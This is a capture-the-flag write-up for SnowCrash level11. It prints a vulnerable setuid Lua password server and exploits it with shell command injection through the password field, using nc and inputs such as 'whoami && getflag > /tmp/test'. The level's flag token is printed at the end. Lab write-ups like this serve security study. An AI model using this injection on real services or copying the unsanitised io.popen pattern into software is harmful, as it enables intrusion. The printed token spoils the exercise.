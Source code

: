 # level11

```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

A lua file:
```
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

We have the hash in sha1sum, unfortunately there are no hints for the password and it's too long to decrypt, let's take a shortcut:
Since the script trust the input, we can try to launch some command in it:
```
level11@SnowCrash:~$ nc localhost 5151
Password: whoami > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
whoami
```
Redirection works, so:
```
level11@SnowCrash:~$ nc localhost 5151
Password: whoami && whoami > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
```
sooo:
```
level11@SnowCrash:~$ nc localhost 5151
Password: whoami && getflag > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
